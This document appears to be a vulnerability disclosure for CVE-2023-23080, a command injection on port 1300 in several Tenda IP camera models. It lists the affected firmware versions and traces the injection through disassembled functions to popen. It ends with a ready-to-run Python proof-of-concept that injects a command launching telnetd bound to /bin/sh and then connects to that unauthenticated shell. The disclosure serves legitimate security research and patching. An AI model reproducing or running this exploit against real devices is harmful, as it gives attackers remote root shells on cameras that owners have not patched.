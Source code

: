 # Information

#### CVE ID: CVE-2023-23080

#### Vendor of the products:

Tenda

#### Reported by: 

FeiXincheng(FXC030618@outlook.com) && ShaLetian(ltsha@njupt.edu.cn) from X1cT34m

#### Affected products:

Tenda CP7, Tenda CP3 v.10,Tenda IT7-PCS,Tenda IT7-LCS,Tenda IT7-PRS，Tenda IT7-LRS,Tenda IC7-LRS,Tenda IC7-PRS,Tenda IT6-PCS，Tenda IT6-LCS,Tenda IT6-PRS,Tenda IC6-LRS,Tenda IC6-PRS,Tenda IT6-LRS

#### Affected firmware version:

Tenda CP7<=V11.10.00.2211041403

Tenda CP3 v.10<=V20220906024_2025

Tenda IT7-PCS<=V2209020914

Tenda IT7-LCS<=V2209020914

Tenda IT7-PRS<=V2209020908

Tenda IT7-LRS<=V2209020908_0909

Tenda IC7-LRS<=2209020910

Tenda IC7-PRS<=2209020910

Tenda IT6-PCS<=2209020915

Tenda IT6-LCS<=2209020915

Tenda IT6-PRS<=2209020911

Tenda IC6-LRS<=2209020912

Tenda IC6-PRS<=2209020912

Tenda IT6-LRS<=2209020911

#### Vendor Homepage:

https://www.tenda.com.cn/

#### Vendor Advisory: 

https://www.tenda.com.cn/product/download/CP7.html

https://www.tenda.com.cn/download/detail-3472.html

https://www.tenda.com.cn/download/detail-3471.html

https://www.tenda.com.cn/download/detail-3470.html

https://www.tenda.com.cn/download/detail-3466.html

https://www.tenda.com.cn/download/detail-3467.html

https://www.tenda.com.cn/download/detail-3463.htmll

https://www.tenda.com.cn/download/detail-3478.html

https://www.tenda.com.cn/download/detail-3469.html

https://www.tenda.com.cn/download/detail-3464.html

https://www.tenda.com.cn/download/detail-3466.html

https://www.tenda.com.cn/download/detail-3461.html

https://www.tenda.com.cn/download/detail-3462.html

https://www.tenda.com.cn/download/detail-3465.html

# Summarize

`Tenda IPC` was discovered to contain a command injection vulnerability in port `1300`.This vulnerability allows attackers to execute arbitrary commands.

# Vulnerability details

The vulnerability is in port `1300`.

At first, from the `start`entry enters, and then the `sub_11924` function is executed.

![image-20220316191407126](./img/1.png)

In the function `sub_11924`, we find that we can controll the content, and then we can execute the `sub_14404` function.

![image-20220316191407126](./img/2.png)

In the function `sub_14404`, the content will be passed to `sub_16E04`.

![image-20220316191407126](./img/3.png)

In the function  `sub_16E04`,we find that dangerous function `popen` appear. And we can achieve a code excute.

![image-20220316191407126](./img/4.png)



# poc

for example:	python3 exploit.py 192.168.2.106 8888

```python
from time import sleep
import requests
import socket
import sys
import os


if __name__ == "__main__":
	TARGET_IP = sys.argv[1]
	SHELL_PORT = sys.argv[2]

	SHELL_OPERATION = "<SYSTEMEX>telnetd -p %s -l /bin/sh &</SYSTEMEX>" % SHELL_PORT

	print("\x1b[01;38;5;214m[+] Connect to target ip\x1b[0m")
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((TARGET_IP,1300))
	sleep(0.5)

	print("[+] Sending payload to %s ..." % TARGET_IP)
	s.send(SHELL_OPERATION.encode())
	
	s.recv(1024)
	sleep(1)
	
	print("\x1b[01;38;5;1m[+] Successfully connect to Port %s\x1b[0m" % SHELL_PORT)
	os.system("telnet %s %s" % (TARGET_IP,SHELL_PORT))
	
	s.close()

```

#### Before attack

![image-20220316191407126](./img/5.png)

#### After attack

![image-20220316191407126](./img/6.png)

![image-20220316191407126](./img/7.png)
